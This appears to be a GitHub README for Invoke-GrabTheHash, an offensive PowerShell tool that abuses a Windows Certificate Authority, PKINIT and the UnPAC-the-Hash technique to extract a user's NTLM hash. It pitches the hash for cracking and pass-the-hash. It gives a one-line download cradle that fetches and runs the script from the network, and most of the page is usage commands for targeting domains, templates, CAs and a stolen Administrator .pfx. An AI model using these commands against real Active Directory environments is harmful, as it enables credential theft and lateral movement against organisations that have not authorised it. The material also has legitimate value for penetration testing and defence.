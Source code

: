 # Invoke-GrabTheHash
Requests a certificate from a Windows Certificate Authority (CA) for the Current Session User's TGT, uses PKINIT to obtain a TGT for the same user, then performs the UnPAC-the-Hash technique to extract the user's NTLM hash.

This approach can be valuable in situations where an account's TGT has been compromised. Gaining access to the account hash allows for further actions such as cracking it to retrieve the user plain-text password, pass-the-hash attacks, or acquiring a new TGT if the existing one has expired.

### Run as follows
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-GrabTheHash/main/Invoke-GrabTheHash.ps1')
```
```
Invoke-GrabTheHash
```

### Specify a target Domain
```
Invoke-GrabTheHash -Domain <domain.name>
```

### Enumerate for Certificate Templates
```
Invoke-GrabTheHash -CertTemplates
```

### Specify a Certificate Template to use
By default, the "User" template is used to request a certificate
```
Invoke-GrabTheHash -TemplateName <template_name>
```

### Specify the CA Name
```
Invoke-GrabTheHash -CAName "CA01.domain.local\domain-CA01-CA"
```

### Specify the User Account Name
This must correspond to the TGT Client Name in your current session
```
Invoke-GrabTheHash -CN <samaccountname>
```

### Provide a .pfx file
You can also reuse a previously obtained .pfx to obtain the user hash

Make sure you provide the full path to the .pfx file, as well as the CN and Domain information
```
Invoke-GrabTheHash -PFX C:\Users\Senna\Downloads\Administrator.pfx -Domain ferrari.local -CN Administrator
```

### Example Output
![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/fcb77053-ebf9-4132-bbaf-8a576a6d08b1)

![image](https://github.com/Leo4j/Invoke-GrabTheHash/assets/61951374/2e887daf-865a-4813-9930-f32815ee653b)
